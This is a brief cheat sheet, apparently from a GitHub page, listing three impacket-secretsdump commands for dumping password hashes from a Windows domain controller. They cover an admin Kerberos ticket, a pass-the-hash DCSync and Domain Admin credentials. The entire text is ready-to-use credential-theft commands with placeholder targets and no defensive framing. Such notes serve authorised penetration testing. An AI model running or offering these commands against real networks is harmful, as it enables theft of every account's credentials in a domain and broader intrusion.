 ## Use this impacket module to dump hashes from the local machine, depending the context of usage

#### 1) impacket-secretsdump -k -no-pass DC.DOMAIN.COM (Use this if you have an admin TGT)

#### 2) impacket-secretsdump DC.DOMAIN.COM -hashes 'LM_HASH:NTLM_HASH' (Do DC sync via PtH)

#### 3) impacket-secretsdump DOMAIN.COM\administrator:PASSWORD@DC_IP (Do DC Sync with Domain Admin credentials)

